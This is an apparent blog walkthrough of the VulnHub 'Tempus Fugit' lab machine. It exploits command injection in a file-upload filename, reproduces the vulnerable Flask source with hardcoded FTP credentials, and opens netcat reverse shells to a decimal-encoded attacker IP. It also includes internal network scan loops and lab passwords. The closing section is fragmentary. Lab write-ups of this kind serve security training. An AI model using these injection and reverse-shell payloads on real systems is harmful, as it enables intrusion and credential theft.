 ```yaml
---
layout: post
title:  "Tempus Fugit: Vulnhub Walkthrough"
date:   2019-08-02 15:07:19
categories: [tutorial]
comments: true
---
```

This is a boot2root machine hosted on [VulnHub][1] that was created by [4ndr34z][5] and [DCAU][2]. Its graded as intermediate. As this is purely for educational purposes I'll throw in spoilers now. To exploit this machine we'll need to chain two different exploits, there will be some port forwarding and we'll need to exploit a second machine. At the end we'll also include some mitigation strategies. Without much further ado here we go.

<!--more-->


Using [nmapAutomator][4]. Only port 80 is open:

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-1.png)

Navigating to the home page:
![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-2.png)

We had nikto running in the background but this gave too many false positives we moved on from it.

Using curl to scrape the links on the page. There's only one useful link.
```
kali@marksmith:~/vulnhub/tempus_fugit$ curl -s  192.168.109.142 | grep -Po '(href|src)=".{2,}"'
...
href="/upload"
...
```

The home page has three links, the first three don't have anything promising. We go to `/upload`

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-3.png)

When we try upload the file like `Cherry Notes.ctb.txt`. It throws the error below.

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-4.png)

We tried uploading different file types (.php, .war, .elf) all fail. It only accepts file with extension [.txt] or [.rtf] with no spaces:

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5.png)


__Conclusion__
1. You can only upload rtf or txt
2. If theres a space files name no execution; you get an error 500
3. If you got other dots than the .[ext] it doesn't work.

Set up burp and start intercepting. In this case the use of Burp is a bit different, when we intercept can only deal with its at the proxy level. Here we go;

After much investigation, the `/upload` function prints the contents of the file, with `.txt or .rtf` that is uploaded. This gives us a hunch that in the background, it could be running a function like `/bin/cat [filename].txt`. So what if we could chain some commands at the end of the `[filename].txt` using `; or | or &&` we get command execution. We can do ls, id, pwd, uname -a. Boom we got RCE.

![5-5a.png](/assets/images/posts/tempus-fugit-walkthrough/20-5b.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5c.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5a.png)

Since we got RCE and can list the contents ; we find a file called `main.py`. Reading the code, there’s a part that splits the filename at the fullstops; thus payloads with fullstops are problematic; also payloads with slashes(/) too are problematic. Tried using wget to upload but we’re restricted from executing things in `/upload` directory … i think

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5d.png)
```
import os
import urllib.request from flask
import Flask, flash, request, redirect, render_template from ftplib
import FTP
import subprocess
UPLOAD_FOLDER = 'upload'
ALLOWED_EXTENSIONS = {
  'txt',
  'rtf'
}
app = Flask(__name__)
app.secret_key = "mofosecret"
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024 @app.route('/', defaults = {
  'path': ''
}) @app.route('/<path:path>') def catch_all(path): cmd = 'fortune -o'
result = subprocess.check_output(cmd, shell = True) return "<h1>400 - Sorry. I didn't find what you where looking for.</h1> <h2>Maybe this will cheer you up:</h2><h3>" + result.decode("utf-8") + "</h3>"
@app.errorhandler(500) def internal_error(error): return "<h1>500?! - What are you trying to do here?!</h1>"
@app.route('/') def home(): return render_template('index.html') @app.route('/upload') def upload_form(): try: return render_template('my-form.html') except Exception as e: return render_template("500.html", error = str(e)) def allowed_file(filename): check = filename.rsplit('.', 1)[1].lower() check = check[: 3] in ALLOWED_EXTENSIONS
return check @app.route('/upload', methods = ['POST']) def upload_file(): if request.method == 'POST': if 'file' not in request.files: flash('No file part') return redirect(request.url) file = request.files['file']
if file.filename == '': flash('No file selected for uploading') return redirect(request.url) if file.filename and allowed_file(file.filename): filename = file.filename file.save(os.path.join(UPLOAD_FOLDER, filename)) cmd = "cat " + UPLOAD_FOLDER + "/" + filename result = subprocess.check_output(cmd, shell = True) flash(result.decode("utf-8")) flash('File successfully uploaded') try: ftp = FTP('ftp.mofo.pwn') ftp.login('someuser', 'b232a4da4c104798be4613ab76d26efda1a04606') with open(UPLOAD_FOLDER + "/" + filename, 'rb') as f: ftp.storlines('STOR %s' % filename, f) ftp.quit() except: flash("Cannot connect to FTP-server") return redirect('/upload')
else :flash('Allowed file types are txt and rtf') return redirect(request.url) if __name__ == "__main__": app.run()
```

Only option for a payload is `/bin/nc`. Also the IP has to be in decimal format Using `nc -e <<ip decimal format>> <<port number>> sh` works. 
Our IP 192.168.109.148 in decimal format is 3232263572 (using any online converter):

We initially tried these.
```
nc -e /bin/sh 3232263572 4242
nc -e /bin/bash 3232263572 4242
nc 3232263572 4242 sh
```
None of them payloads worked;

However, this gives a reverse shell.

```
nc 3232263572 4242 -e sh
```

Once we're inside we realise why the first three options didnt work. The `-e option` must be last;

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-6.png)

When we run LinEnum, it tells us we're in a docker environment, 
```
[+] Looks like we're in a Docker container:
...
-rwxr-xr-x    1 root     root             0 Aug 16  2019 /.dockerenv
```

The machine IP is different from what we have externally as well
```
### NETWORKING  ##########################################
[-] Network and IP info:
eth0      Link encap:Ethernet  HWaddr 02:42:AC:13:00:0A
          inet addr:172.19.0.10  Bcast:172.19.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:139629 errors:0 dropped:0 overruns:0 frame:0
          TX packets:135825 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:7799491 (7.4 MiB)  TX bytes:10351266 (9.8 MiB)
...
```

As we did in [wintermute][6] we scan the internal network;

```
for ip in $(seq 1 254); do ping -c 1 172.19.0.$ip | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 ; done

172.19.0.1
172.19.0.10
172.19.0.12
172.19.0.100

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.12 $p 2>&1 ; done | grep open
172.19.0.12 (172.19.0.12:21) open

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.100 $p 2>&1 ; done | grep open
172.19.0.100 (172.19.0.100:53) open

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.1 $p 2>&1 ; done | grep open
172.19.0.1 (172.19.0.1:22) open
172.19.0.1 (172.19.0.1:80) open
172.19.0.1 (172.19.0.1:8080) open
```

bash-4.4# cat rl_history
 1565501674
open 172.19.0.12
 1565501679
quit
 1565501725
lftp 172.19.0.12
 1565501727
ls
 1565501758
?
 1565501767
qut
 1565501769
quit
 1565595928
exit
 1584064057
user someruser
 1584064068
id
 1584064071
list
 1584064080
help
 1584064113
ls
 1584064115
exit


b232a4da4c104798be4613ab76d26efda1a04606

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-7.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-8.png)

myD3#2p$a%s&s

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-9.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-10.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-11.png)


![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-12.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-13.png)













hardEnough4u

[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@DCAU7
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
[5]: https://twitter.com/@4nqr34z
